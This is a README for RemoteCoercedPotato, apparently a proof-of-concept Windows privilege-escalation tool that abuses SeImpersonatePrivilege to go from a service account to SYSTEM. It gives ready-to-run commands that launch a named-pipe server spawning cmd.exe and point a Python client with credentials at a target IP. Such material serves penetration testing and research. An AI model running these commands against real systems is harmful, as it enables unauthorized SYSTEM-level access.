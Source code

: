 ```txt
Remote
   ____                            _ ____       _        _        
  / ___|___   ___ _ __ ___ ___  __| |  _ \ ___ | |_ __ _| |_ ___  
 | |   / _ \ / _ \ '__/ __/ _ \/ _` | |_) / _ \| __/ _` | __/ _ \ 
 | |__| (_) |  __/ | | (_|  __/ (_| |  __/ (_) | || (_| | || (_) |
  \____\___/ \___|_|  \___\___|\__,_|_|   \___/ \__\__,_|\__\___/ 
                                                                  
                                           @Hack0ura @Prepouce                         
```

# RemoteCoercedPotato
A quick POC of a Coerced Patate but remotly (just for fun).

From Patate (LOCAL/NETWORK SERVICE) to SYSTEM by abusing `SeImpersonatePrivilege` on Windows 10, Windows 11 and Server 2022.

For more information: [https://blog.hackvens.fr/articles/CoercedPotato.html](https://blog.hackvens.fr/articles/CoercedPotato.html) (The english version is coming soon!! 😄)

## A very quick PoooooC:

Usage : 

You can check the help message using the `--help` option.

- Without random namedpipe (default):
```txt
    ./CoercedPotatoServer.exe -c cmd.exe
```
```txt
    ./CoercedPotatoClient.py -u user -p password 127.0.0.1 [targeted_IP]
```

 - With a random namedpipe, given by CoercedPotatoServer.exe: 
```txt 
    ./CoercedPotatoServer.exe -c cmd.exe -r true 
```
```txt        
    ./CoercedPotatoClient.py -n [randomnamedpipe] -u user -p password -r true 127.0.0.1 [targeted_IP] 
```



## Todo 
 
- Implemention of MS-RPRN interfacce 
    
- Creation a powershell of a bytecode version of the namedPipe server 


Made in France 🇫🇷 with <3

